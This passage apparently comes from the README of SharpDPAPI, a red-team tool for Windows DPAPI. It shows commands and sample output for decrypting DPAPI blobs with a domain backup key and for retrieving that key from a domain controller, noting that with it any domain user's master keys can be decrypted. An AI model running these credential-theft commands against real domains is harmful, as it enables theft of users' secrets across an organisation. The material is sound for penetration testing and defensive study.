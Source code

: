 
Using a domain DPAPI backup key to first decrypt any discoverable masterkeys:

    C:\Temp>SharpDPAPI.exe blob /target:C:\Temp\blob2.bin /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...(snip)...

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.5.0


    [*] Action: Describe DPAPI blob

    [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

    [*] User master key cache:

    {0241bc33-44ae-404a-b05d-a35eea8cbc63}:E7E481877B9D51C17E015EB3C1F72FB887363EE3

        guidMasterKey    : {0241bc33-44ae-404a-b05d-a35eea8cbc63}
        size             : 314
        flags            : 0x0
        algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
        description      :
        dec(blob)        : 01 00 00 00 3F 3F 3F 3F 01 15 3F 11 3F 7A 00 3F 4F 3F 3F ...


#### backupkey

The **backupkey** command will retrieve the domain DPAPI backup key from a domain controller using the **LsaRetrievePrivateData** API approach [from Mimikatz](https://github.com/gentilkiwi/mimikatz/blob/2fd09bbef0754317cd97c01dbbf49698ae23d9d2/mimikatz/modules/kuhl_m_lsadump.c#L1882-L1927). This private key can then be used to decrypt master key blobs for any user on the domain. And even better, the key never changes ;)

Domain admin (or equivalent) rights are needed to retrieve the key from a remote domain controller.

The `/nowrap` flag will prevent wrapping the base64 key on display.

This base64 key blob can be decoded to a binary .pvk file that can then be used with Mimikatz' **dpapi::masterkey /in:MASTERKEY /pvk:backupkey.pvk** module, or used in blob/file /pvk:X form with the **masterkeys**, **credentials**, or **vault** SharpDPAPI commands.

By default, SharpDPAPI will try to determine the current domain controller via the **DsGetDcName** API call. A server can be specified with `/server:COMPUTER.domain.com`. If you want the key saved to disk instead of output as a base64 blob, use `/file:key.pvk`.

Retrieve the DPAPI backup key for the current domain controller:

    C:\Temp>SharpDPAPI.exe backupkey

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0
